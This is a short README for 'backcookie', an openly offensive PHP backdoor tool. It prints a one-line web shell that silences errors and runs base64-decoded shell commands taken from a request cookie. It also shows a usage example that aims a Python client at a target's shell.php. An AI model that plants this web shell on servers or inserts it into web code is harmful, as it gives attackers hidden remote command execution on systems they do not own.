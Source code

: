backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/mrjopino/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/mrjopino/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["1"])); ?>
```

```
Example: python backcookie.py http://target.com/shell.php
```

## Developer

-------------

Copyright, 2013 by [José Pino](http://twitter.com/mrjopino)

-------------
